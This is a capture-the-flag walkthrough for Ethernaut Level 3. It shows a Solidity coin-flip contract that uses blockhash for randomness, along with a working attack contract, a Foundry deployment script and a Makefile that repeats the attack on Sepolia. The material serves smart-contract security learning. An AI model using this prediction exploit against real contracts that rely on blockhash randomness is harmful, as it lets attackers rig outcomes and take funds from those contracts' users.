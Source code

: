 # Ethernaut Level 3

---

Contract:

```solidity
pragma solidity ^0.8.0;

contract CoinFlip {
    uint256 public consecutiveWins;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor() {
        consecutiveWins = 0;
    }

    function flip(bool _guess) public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
            revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        if (side == _guess) {
            consecutiveWins++;
            return true;
        } else {
            consecutiveWins = 0;
            return false;
        }
    }
}
```

Since blockchains are deterministic systems, getting real random numbers is a challenge if we want to add randomness to our contracts. A common practice is to use `Chainlink VRF` to fulfill random number requests from our contracts while Chainlink nodes provide decentuality and safety.

In this contract, the way it attempts randomness is problematic: we can simply do the exact same thing in our attack contract and we will get the same result of  `side` as original contract. We want to first run the process before calling `flip` and feed the result directly to `_guess` so that we will acheive 100% success rate.

We use Foundry for solution. For `CoinFlipAttack.sol`:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipAttack {
    ICoinFlip coinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) {
        coinFlip = ICoinFlip(_coinFlipAddress);
    }

    function attack() external {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        bool side = (blockValue / FACTOR) == 1 ? true : false;
        coinFlip.flip(side);
    }
}
```

We use an Interface since we mainly just want to deal with `flip` method from the original contract. Then in the attack contract, we reimplemented the "randomness" logic as original contract and wired the result directly to `flip` method.

In `CoinFlip.s.sol`:

```solidity
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {CoinFlip} from "../src/CoinFlip.sol";
import {CoinFlipAttack} from "../src/CoinFlipAttack.sol";

contract CoinFlipScript is Script {
    address TARGET_ADDRESS = 0xXXXXX;
    CoinFlip coinFlip = CoinFlip(TARGET_ADDRESS);
    
    function run() external {
        vm.startBroadcast();
        CoinFlipAttack coinFlipAttack = new CoinFlipAttack(TARGET_ADDRESS);
        coinFlipAttack.attack();
        vm.stopBroadcast();
        console.log("After attack: consecutiveWins =", coinFlip.consecutiveWins());
    }
}
```

We have to pay extra attention that we cannot use a for loop to do it ten times since there's a mechanism in the original contract to prevent transactions from the same block:

```solidity
if (lastHash == blockValue) {
    revert();
}
```

So we have to run the script ten times. We use a Makefile to automate this process:

```makefile
# Makefile

ifneq (,$(wildcard .env))
    include .env
    export
endif

TIMES ?= 10
SCRIPT := script/CoinFlip.s.sol:CoinFlipScript
RPC_URL ?= $(SEPOLIA_RPC_URL)
ACCOUNT ?= default

run-one:
	forge script $(SCRIPT) --broadcast --rpc-url $(RPC_URL) --account $(ACCOUNT) -vv

run-loop:
	@i=1; \
	while [ $$i -le $(TIMES) ]; do \
	  echo "=== Running attempt $$i of $(TIMES) ==="; \
	  make run-one; \
	  i=$$(( $$i + 1 )); \
	done

.PHONY: run-one run-loop
```

We can always check the `consecutiveWins()` using Foundry `cast`:

```bash
cast call 0xXXXXXXXXX "consecutiveWins()(uint256)" --rpc-url $SEPOLIA_RPC_URL
```

If you run `make run-one` each for a time, you can use this command to see an increment to the `consecutiveWins()`.